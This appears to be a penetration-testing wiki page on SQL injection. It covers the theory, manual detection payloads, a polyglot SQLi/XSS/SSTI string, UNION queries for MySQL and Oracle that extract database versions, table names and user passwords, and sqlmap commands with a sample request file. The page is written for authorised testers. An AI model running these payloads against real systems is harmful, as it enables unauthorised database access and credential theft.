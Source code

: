 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# SQL injection

## Theory

Many web applications use one or multiple databases to manage data. In order to dynamically edit the database while users browse the website, some SQL queries can rely on input vectors. When input parameters used in those queries are insufficiently validated or sanitized, these web apps can be vulnerable to SQL injections.

SQL injection attacks can allow attackers to read, update, insert or delete database data by injecting a piece of SQL query through the input vector, hence affecting the intended execution of the original query. In some cases, these attacks can also lead to File Download, File Upload or even Remote Code Execution.

## Practice

Testers need to identify input vectors (parts of the app that accept content from the users) that could be used for database operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

### Vulnerable input recon

Using special SQL characters (`'`, `"`, `#`, `;`, `)`, `*`,`%`) in an input could lead to SQL errors sometimes echoed back to the users for debugging. This would indicate an entry point not sanitized enough and thus potentially vulnerable to SQL injection.

> [!TIP]
> For every payload do not forget to try url encoding or others.

### Manual testing

With `some.website/?parameter=value` some basic useful payload to detect vulnerable inputs are:

```
parameter=1
parameter=1'
parameter=1"
parameter=[1]
parameter[]=1
parameter=1`
parameter=1\
parameter=1/**/
parameter=1/*!111'*/
parameter=1' or '1'='1
parameter=1 or 1=1
parameter=' or ''='
parameter=' OR 1 -- -
parameter=1' or 1=1 --
parameter=1' or 1=1 -- -
parameter=1' or 1=1 /*
parameter='='
```

> [!WARNING]
> GET parameters are not the only ones that could be vulnerable to SQLi. Testers should thoroughly test all user inputs (parameters, user-agents, cookies...)

The following payload is used for testing SQL injections, [XSS (Cross-Site Scripting)](xss.md) and [SSTI (Server-Side Template Injection)](ssti.md).

```
'"<svg/onload=prompt(5);>{{7*7}}
```

#### Extracting information with UNION

::: tabs

=== MySQL

1\. Finding number of columns:

```sql
' ORDER BY 2 -- # iterate until error to find number of columns
```

2\. Extract database information:

```sql
' UNION SELECT @@version, NULL -- # Inserting null depending on number of columns
```

3\. Find tables name:

```sql
' UNION SELECT NULL,concat(COLUMN_NAME) from information_schema.columns where table_name='users' --
```

4\. Retrieve information from table:

```sql
' UNION SELECT username,password from users --
```


=== Oracle

1\. Finding number of columns:

```sql
' ORDER BY 2 -- # iterate until error to find number of columns
```

2\. Extract database information:

```sql
' UNION SELECT banner,NULL from v$version --
```

3\. Find tables name:

```sql
' UNION SELECT table_name,NULL from all_tables --
```

4\. Retrieve information from table:

```sql
' UNION SELECT username,password from users --
```

:::


### Automated tests

Tools like [SQLmap](https://github.com/sqlmapproject/sqlmap) (Python) or [SQLninja](https://github.com/xxgrunge/sqlninja) (Perl) can also be used to fuzz input vectors, find vulnerable entry points and automatically exploit them.

> [!CAUTION]
> Just like any fuzzing tool, these scans need to be slowed down when testing production instances as it could lead to an unintended denial of service. In addition to that, testers need to use those tools with the greatest care since creating issues with production instances databases (like overwriting or deleting data) could have a serious fallout.

```bash
sqlmap --user-agent "PENTEST" --url $URL -p target_parameter --all
```

It is also possible to load request files and let SQLmap do the heavy work of fuzzing every parameter and input vector.

```bash
sqlmap -r $REQUEST_FILE --level 2 -v 2 --all
```

The request file should look like a standard HTTP request (line, headers, empty line, optional data). It can be obtained by many ways like inspecting network operations in a browser, intercepting requests with a proxy (like Burp Suite), and so on.

```http
POST /login.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,fr;q=0.5,fr-FR;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Cookie: JSESSIONID=F168EA13C46D14AA134E13D4;
Connection: keep-alive
Upgrade-Insecure-Requests: 1

username=testusername&password=testpassword
```

## Resources

[https://www.asafety.fr/mysql-injection-cheat-sheet/](https://www.asafety.fr/mysql-injection-cheat-sheet/)

[https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

[https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)

[http://pentestmonkey.net/category/cheat-sheet/sql-injection](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
SQL injection cheatsheets (MSSQL, MySQL, Oracle SQL, Postgres SQL, ...)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[https://portswigger.net/kb/issues/00100210_sql-injection-second-order](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)

[https://github.com/Hakumarachi/Loose-Compare-Tables](https://github.com/Hakumarachi/Loose-Compare-Tables)
